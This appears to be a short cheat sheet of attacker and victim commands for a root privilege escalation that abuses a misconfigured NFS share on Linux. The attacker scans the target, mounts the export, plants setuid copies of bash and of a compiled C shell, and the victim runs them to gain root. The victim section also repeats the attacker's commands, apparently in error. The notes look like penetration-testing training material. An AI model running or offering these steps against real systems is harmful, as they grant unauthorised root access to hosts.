     <b>Linux Privilege Escalation using Misconfigured NFS</b></br>
   REference: https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/</br>
Attacker:</br>
    nmap -sV --script=nfs-showmount 192.168.1.102</br>
    apt-get install nfs-common</br>
    showmount -e 192.168.1.102</br>
  - Exploiting NFS server for Privilege Escalation</br>
    mkdir /tmp/raj</br>
    mount -t nfs 192.168.1.102:/home /tmp/raj</br>
    cp /bin/bash .</br>
    chmod +s bash</br>
    ls -la bash</br>
Victim:</br>
    mkdir /tmp/raj</br>
    mount -t nfs 192.168.1.102:/home /tmp/raj</br>
    cp /bin/bash .</br>
    chmod +s bash</br>
    ls -la bash</br>
- C Program</br>
  Attacker:</br>
    cp asroot.c /tmp/raj</br>
    cd /tmp/raj</br>
    gcc asroot.c -o shell</br>
    chmod +s shell</br>
  Victim:</br>
        cd /home</br>
        ls</br>
        ./shell</br>
        id</br>
        whoami</br>







